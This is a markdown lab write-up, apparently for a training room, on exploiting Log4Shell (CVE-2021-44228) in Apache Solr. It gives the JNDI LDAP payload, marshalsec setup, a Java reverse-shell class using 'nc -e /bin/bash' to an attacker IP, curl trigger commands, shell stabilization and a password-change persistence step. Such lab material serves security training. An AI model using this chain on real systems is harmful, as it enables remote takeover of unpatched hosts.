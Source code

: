 # Solar, Exploiting Log4j


## Introduction
- A new vulnerability `CVE-2021-44228` affects the logj4 package
- Severity score of 10.0, offers RCE on hosts that use log4j
- Huge attack surface because a lot of software uses log4j, will be seen for years to come

## Recon
- Use nmap to scan all the ports, as some may not be immediately noticed by nmap
- `nmap -v -p- 10.10.250.23`, the service running is apache solr on port 8983

## Discovery
- Apache Solr 8.11.0 is vulnerable to log4jshell
- `-Dsolr.log.dir=/var/solr/logs` is an indication that it's running log4j
- `solr.log` contains INFO entries
- `2021-12-13 03:44:58.415 INFO  (qtp1083962448-20) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=80` calling to `/admin/cores`
- We can try to control the `params` field

## Proof of Concept
- The URL we want to visit - `/admin/cores` - needs to be prefaced with `solr/`, so go to `http://10.10.250.23:8983/solr/admin/cores`
- `The log4j package adds extra logic to logs by "parsing" entries, ultimately to enrich the data -- but may additionally take actions and even evaluate code based off the entry data. This is the gist of CVE-2021-44228. Other syntax might be in fact executed just as it is entered into log files. `
    - Examples of syntax
        ```
        ${sys:os.name}
        ${sys:user.name}
        ${log4j:configParentLocation}
        ${ENV:PATH}
        ${ENV:HOSTNAME}
        ${java:version}
        ```
- The payload to abuse log4j vuln is `${jndi:ldap://ATTACKERCONTROLLEDHOST}`
    - log4j will invoke JNDI (Java Naming and Directory Interface), which can be used to access external resources or "references"
    - `ldap://` indicates that the target will reach out to an endpoint (which the attacker will control) via the LDAP protocol
    - This syntax can be entered **wherever the application is logging the data**
        - Input boxes, user and password login forms, data entry points within applications
        - HTTP headers such as User-Agent, X-Forwarded-For, or other customizable headers
        - Any place for user-supplied data
- This type of vulnerability was showcased in a [presentation in 2016](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf)
- Proof of Concept
    1. `nc -lnvp 9999`
    2. `curl 'http://10.10.250.23:8983/solr/admin/cores?foo=$\{jndi:ldap://YOUR.ATTACKER.IP.ADDRESS:9999\}'`
       - Note, due to the use of the $ dollar-sign character in your syntax, you must ensure you wrap the URL within single-quotes so bash (your command-line shell) does not interpret it as a variable. Additionally, you must escape out the { } curly braces with a single backslash character, so those are not misrepresented in the curl command arguments.
    - This will not create a reverse shell, it's just a proof of concept to see whether the target machine will connect back to the attacker

## Exploitation
- The connection that netcat caught in the last step was just an LDAP request, so the only content displayed was a series of non-printable characters
    - To exploit it further we need to respond with an LDAP referral server, which will redirest the initial request of the victim to another location, where we will host a secondary payload that will run code on the target
- Steps
    1. `${jndi:ldap://attackerserver:1389/Resource}` -> reaches out to our LDAP Referral Server
    2. LDAP Referral Server springboards the request to a secondary `http://attackerserver/resource`
    3. The victim retrieves and executes the code present in `http://attackerserver/resource`
- To host an http server we can use one of these
    - `python3 -m http.server`
    - `php -S 0.0.0.0:8000`
    - Any formal web service
- We use the [marshalsec](https://github.com/mbechler/marshalsec) LDAP referral server
- Exploit
    1. Build marshalsec with `mvn clean package -DskipTests`
    2. Start marshalsec with `java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://YOUR.ATTACKER.IP.ADDRESS:8000/#Exploit"`, opens LDAP referral server at 1389, which will forward the request to http server on port 8000 for resource `Exploit`
        - Now the LDAP referral server is running, and we can set up out http server and the payload we want to run
    3. Create a java file `Exploit.java` with reverse shell script
        ```
            public class Exploit {
            static {
                try {
                    java.lang.Runtime.getRuntime().exec("nc -e /bin/bash YOUR.ATTACKER.IP.ADDRESS 9999");
                } catch (Exception e) {
                    e.printStackTrace();
                }
            }
        }
        ```
    4. Compile java payload with `javac Exploit.java` (if you're using the attackbox use `javac Exploit.java -source 8 -target 8` instead)
    5. Host the payload with `python3 -m http.server 8000` on port 8000
    6. Start netcat listener with `nc -lnvp 9999` on port 9999
    7. Trigger exploit with `curl 'http://10.10.251.47:8983/solr/admin/cores?foo=$\{jndi:ldap://YOUR.ATTACKER.IP.ADDRESS:1389/Exploit\}'`
- Troubleshooting
```
If you do not see your reverse shell connection come through, be sure to revisit your Exploit.java file.

1. Ensure you do not have any typos in the Java syntax (forgetting semi-colons or closing braces).
2. Ensure your attacker IP address matches what is displayed in the ip addr show output for your network interface.
3. Ensure your your port matches the same as what your netcat listener is waiting and serving on.

If you need to make any changes or corrections to your Exploit.java file, you must remember to recompile it  with javac Exploit.java.

Revisit your HTTP server.

1. Ensure it is in fact running.
2. Ensure it is running in the same folder as your Exploit.java file.

When you run the curl command to trigger the exploit, you should sequentially see:

1. A connection made on your LDAP server,
2. A connection made on your HTTP server,
3. A connection made in your netcat listener.

Once you receive a connection, you may not see a "prompt." You can still enter commands to check if you do have the shell.
```

## Persistence
- Nmap output showed that ssh was open, so we can potentially add private keys or change users
- To stabilize the shell if using bash:
```
(on the reverse shell) python3 -c "import pty; pty.spawn('/bin/bash')"

(press on your keyboard) Ctrl+Z

(press on your keyboard) Enter

(on your local host) stty raw -echo

(on your local host) fg (you will not see your keystrokes -- trust yourself and hit Enter)

(press on your keyboard) Enter

(press on your keyboard) Enter

(on the reverse shell) export TERM=xterm
```
- To change ssh password if you have sudo permissions
    1. `sudo su`
    2. `passwd <user>`

## Detection
- Finding applications vulnerable to log4jshell is hard
